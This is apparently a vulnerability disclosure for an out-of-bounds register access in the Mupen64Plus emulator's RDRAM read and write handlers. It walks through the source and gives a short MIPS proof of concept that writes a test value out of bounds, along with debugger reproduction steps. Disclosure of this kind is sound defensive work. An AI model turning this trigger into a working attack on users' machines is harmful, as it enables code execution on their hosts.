

#### Introduction

Mupen64Plus is a cross-platform, plugin-based N64 emulator capable of accurately running many games. It includes four MIPS R4300 CPU emulators with dynamic recompilers for 32-bit x86 and 64-bit amd64 systems, along with necessary plugins for audio, graphical rendering (RDP), signal co-processor (RSP), and input. Among these is an OpenGL video plugin called RiceVideo, as well as three other excellent video plugins maintained by wahrhaft: Arachnoid, Glide64, and Z64.

We discovered an array overflow vulnerability in Mupen64Plus, which can overwrite function pointers in the host machine's memory, enabling arbitrary command execution on the host.

Official Website: https://mupen64plus.org/  
Affected Versions: <= 2.6.0  

#### Analysis

We analyzed the following code snippet: `uint32_t reg = rdram_reg(address)`, where the `reg` variable is calculated based on the `address` variable, and memory is accessed via `*value = rdram->regs[module][reg];`.

```c
// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rdram/rdram.c#L159
void read_rdram_regs(void* opaque, uint32_t address, uint32_t* value)
{
    struct rdram* rdram = (struct rdram*)opaque;
    uint32_t reg = rdram_reg(address);
    size_t module;

    if (address & RDRAM_BCAST_ADDRESS_MASK) {
        DebugMessage(M64MSG_WARNING, "Reading from broadcast address is unsupported %08x", address);
        return;
    }

    module = get_module(rdram, address);
    if (module == RDRAM_MAX_MODULES_COUNT) {
        *value = 0;
        return;
    }

    *value = rdram->regs[module][reg];

    /* some bits are inverted when read */
    if (reg == RDRAM_MODE_REG) {
        *value ^= UINT32_C(0xc0c0c0c0);
    }
}
```

The following is the implementation of `rdram_reg`. By analyzing edge cases, we found that `(0x3ff >> 2) == 255`, meaning the range of `reg` is `0-255`.

```c
// https://github.com/mupen64plus/mupen64plus-core/blob/master/src/device/rdram/rdram.h#L60
static osal_inline uint32_t rdram_reg(uint32_t address)
{
    return (address & 0x3ff) >> 2;
}
```

Next, we analyzed the structure of `struct rdram* rdram`. Below is the definition of the `rdram` structure, where the `reg` array is an 8x10 two-dimensional array.

```c
#define RDRAM_REGS_COUNT 10
#define RDRAM_MAX_MODULES_COUNT 8 
// https://github.com/mupen64plus/mupen64plus-core/blob/master/src/device/rdram/rdram.h#L50
struct rdram
{
    uint32_t regs[RDRAM_MAX_MODULES_COUNT][RDRAM_REGS_COUNT];

    uint32_t* dram;
    size_t dram_size;

    struct r4300_core* r4300;
};
```

Since the range of `reg` is `0-255`, and `rdram->regs[module][reg]` is an 8x10 two-dimensional array, when `reg` exceeds 10, an array overflow occurs, potentially corrupting other structures in the host machine's memory.

Additionally, this vulnerability also exists in the `write_rdram_regs` function.

```c
void write_rdram_regs(void* opaque, uint32_t address, uint32_t value, uint32_t mask)
{
    struct rdram* rdram = (struct rdram*)opaque;
    uint32_t reg = rdram_reg(address);
    size_t module;
    size_t modules = get_modules_count(rdram);
    
    ...
    if (address & RDRAM_BCAST_ADDRESS_MASK) 
    ...
    else {
        module = get_module(rdram, address);
        if (module != RDRAM_MAX_MODULES_COUNT) {
            masked_write(&rdram->regs[module][reg], value, mask);
        }
    }
}
```

#### Reproduction

- poc.asm

```
.text
.global main
main:
    li  $a0, 0x83f00140
    li  $a1, 0xdeadbeef
    sw  $a1, 0($a0)
    li  $a0, 0x80000000
    lw  $a1, 0($a0)
```

```bash 
$ proxychains git clone https://github.com/mupen64plus/mupen64plus-core.git
$ cd mupen64plus-core/tools/
$ vim build_bundle_bin.sh     # Delete the last line `rm -rf "${TEMPDIR}"`
$ ./build_bundle_bin.sh 2.6.0 2.6.0-debug OPTFLAGS=-O0 DEBUG=1 DEBUGGER=1 V=1
$ tar xf mupen64plus-bundle-2.6.0-debug.tar.gz
$ cd mupen64plus-bundle-2.6.0-debug/
$ gdb -nh --args ./mupen64plus --debug --emumode 0 ./m64p_test_rom.v64
(gdb) set breakpoint pending on
(gdb) b write_rdram_regs
Function "write_rdram_regs" not defined.
Breakpoint 1 (write_rdram_regs) pending.
(gdb) run
...
PC at 0xA4000040.
(dbg) write 0xA4000040 w 0x3c0483f0
(dbg) write 0xA4000044 w 0x34840140
(dbg) write 0xA4000048 w 0x3c05dead
(dbg) write 0xA400004c w 0x34a5beef
(dbg) write 0xA4000050 w 0xac850000
(dbg) asm 0xA4000040 7 5
Disassembly of 7 instructions @ 0xa4000040:
  0 a4000040 [3c0483f0] lui $a0,0x83f0
  1 a4000044 [34840140] ori $a0,$a0,0x140
  2 a4000048 [3c05dead] lui $a1,0xdead
  3 a400004c [34a5beef] ori $a1,$a1,0xbeef
  4 a4000050 [ac850000] sw $a1,0($a0)
(dbg) run
```

